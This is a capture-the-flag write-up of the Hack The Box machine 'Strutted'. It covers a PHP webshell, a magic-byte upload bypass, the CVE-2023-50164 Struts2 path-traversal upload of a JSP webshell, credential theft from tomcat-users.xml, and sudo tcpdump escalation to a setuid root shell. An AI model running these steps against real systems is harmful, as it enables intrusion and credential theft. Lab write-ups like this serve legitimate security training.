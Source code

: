 # Strutted HTB (Linux)

## Initial Setup

* Added the target IP and domain to `/etc/hosts` for local DNS resolution.

## Web Application Reconnaissance

* Navigated to the web page. Noted an **Upload File** functionality immediately.
* Checked DevTools (Inspect Element) — no obvious client-side filters or JavaScript validation interfering with uploads.
* The only other notable functionality was a **Download** button. Downloading the file provided a zip archive containing the Strutted application source code.
* Within the source:

  * Noticed a `tomcat-users.xml` file containing an admin username and password. Logged for potential use later.

## File Upload Testing

* Attempted to upload a basic PHP webshell:

  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```

  * Upload rejected: *"not a jpg, jpeg, gif"*

* Renamed file to `shell.php.jpg`

  * Upload rejected: *"not an actual image"*
  * This suggested magic byte validation.

### Bypassing Magic Byte Checks

* Created a dummy image:

  ```bash
  convert -size 100x100 xc:white image.jpg
  cat image.jpg shell.php.jpg > sh.php.jpg
  ```

  * Upload succeeded, received a shareable link.
  * Share link was dead, but inspecting the page source revealed the image upload path:

  ```
  http://strutted.htb/uploads/20250708_012649/sh.php.jpg
  ```

* Appending `?cmd=id` to this URL did not trigger command execution, confirming the server doesn’t interpret `.php.jpg` as executable.

## Understanding the Application Stack

* Re-examined the downloaded source and `pom.xml`

* Noted:

  ```xml
  <struts2.version>6.3.0.1</struts2.version>
  ```

* Realized this is a **JSP-based Java Struts2 application** — which explained why PHP payloads failed.

## Vulnerability Research

* Identified **CVE-2023-50164**:

  * Vulnerability in Struts2 FileUploadInterceptor allowing **path traversal via manipulated multipart parameters**, potentially leading to RCE if a file can be written to a web-accessible directory.
  * Relevant resource:

    * [https://nvd.nist.gov/vuln/detail/CVE-2023-50164](https://nvd.nist.gov/vuln/detail/CVE-2023-50164)

## Exploitation via CVE-2023-50164

* Prepared a JSP webshell using:

  [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)

* Within BurpSuite Repeater:

  * Uploaded an image to satisfy magic byte checks.
  * Immediately after image bytes, appended the JSP webshell.
  * Crafted multipart parameter `top.uploadFileName` to perform directory traversal:

  ```
  Content-Disposition: form-data; name="top.uploadFileName"

  ../../cmd.jsp
  ```

* Closed multipart form data.

* Server response showed upload succeeded, displaying path:

  ```
  uploads/20250708_023045/../../cmd.jsp
  ```

* Confirmed the webshell was accessible and operational:

  ```
  http://strutted.htb/uploads/20250708_023045/../../cmd.jsp
  ```

## Enumeration through Webshell

* Ran:

  ```
  cat /etc/passwd
  ```

* Discovered a user:

  ```
  james:x:1000:1000:Network Administrator:/home/james:/bin/bash
  ```

* Attempted to locate any sensitive configuration files:

  * Noted earlier from the downloaded source the existence of `/etc/tomcat9/tomcat-users.xml`
  * Unable to `cat` directly via shell (possible restrictions), so used `curl` through the webshell:

  ```
  curl http://strutted.htb/cmd.jsp?cmd=cat+%2Fetc%2Ftomcat9%2Ftomcat-users.xml --output tomcat-users.xml
  ```

* Retrieved the file, revealed admin credentials.

## SSH Access

* Using the discovered password for **user james**, successfully connected via SSH:

  ```
  ssh james@10.10.11.59
  ```

## Privilege Escalation

* Checked sudo privileges:

  ```
  sudo -l
  ```

* Output:

  ```
  User james may run the following commands on localhost:
      (ALL) NOPASSWD: /usr/sbin/tcpdump
  ```

### Exploiting `tcpdump` via GTFOBins

* Referenced GTFOBins technique:
  [https://gtfobins.github.io/gtfobins/tcpdump/#sudo](https://gtfobins.github.io/gtfobins/tcpdump/#sudo)

* Executed:

  ```bash
  COMMAND='cp /bin/bash /tmp/bash && chmod +s /tmp/bash'
  TF=$(mktemp)
  echo "$COMMAND" > $TF
  chmod +x $TF
  sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
  /tmp/bash -p
  ```

* Spawned a root shell via setuid `bash`.

## Root Flag

* Retrieved the root flag:

  ```
  cat /root/root.txt
  ```

## Summary

| Step                        | Action                                                  |
| :-------------------------- | :------------------------------------------------------ |
| Initial recon               | Found upload functionality and downloaded application   |
| Application stack discovery | Identified Struts2 + JSP usage and vulnerable version   |
| Exploitation                | CVE-2023-50164 — file upload path traversal to webshell |
| Lateral movement            | Retrieved tomcat-users.xml via webshell curl            |
| Privilege escalation        | SSH access as **james** → sudo `tcpdump` → root shell   |
| Root flag retrieval         | Read `/root/root.txt`                                   |


